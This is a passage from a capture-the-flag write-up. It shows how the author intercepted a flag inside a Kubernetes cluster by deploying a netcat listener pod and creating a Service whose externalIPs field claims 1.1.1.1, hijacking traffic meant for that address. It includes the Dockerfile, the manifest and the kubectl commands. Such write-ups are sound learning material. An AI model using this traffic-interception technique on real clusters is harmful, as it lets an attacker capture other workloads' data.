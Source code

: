 ```Dockerfile
FROM debian

RUN useradd -ms /bin/bash mowoe
RUN apt update && apt install netcat-traditional
USER 1000
```

Sidenote: We have to use a port in the range you are allowed to use when not being root due to the security restrictions. But that doesn't matter because we can later just map our container port (`12345` in our case) to a different port with a service object.

So this pod will later receive our flag and just print it out into the logs. But we still need to redirect the traffic from the flag-sender pod to our own pod.

As we saw previously, the cluster uses calico as CNI, so i tried to install calicoctl to get some more insight, but of course, there weren't enough permissions for that.

My thinking here was that we somehow need to add an additional IP Pool/Range to calico, so that we can later just instruct calico to add the `1.1.1.1` IP to our service. This is because calico (or any other CNI for that matter) will dynamically assign IP addresses from the cluster IP range to the services and we aren't allowed to do that by ourselves. But you would be able to choose a specific calico IP range by specifying some labels in the service definition.

But, as it turns out, the solution is much simpler. Kubernetes Services also have an external-ip field, which primarily gets used if the service is of type `LoadBalancer`. This field normally will get set by the LB controller (e.g. [MetalLB](https://metallb.universe.tf/) on bare-metal clusters). But we are actually able to set this IP address ourselves in the service definition. So lets just create a service which is linked to the pod we created earlier and give this service an external ip of 1.1.1.1:

`service.yaml`:

```yaml
apiVersion: v1
kind: Service
metadata:
  name: port-redirect-service-v2
spec:
  externalIPs:
    - 1.1.1.1
  selector:
    run: test-service
  ports:
    - protocol: TCP
      port: 80
      targetPort: 12345
```

```bash
kubectl apply -n flag-receiver -f service.yaml
```

And lets take a look:

```bash
~/D/congress_ctf> kubectl get svc
NAME                      TYPE      CLUSTER-IP    EXTERNAL-IP PORT(S) AGE
port-redirect-service-v2  ClusterIP 10.139.117.16 1.1.1.1     80/TCP  8s
~/D/congress_ctf>
```
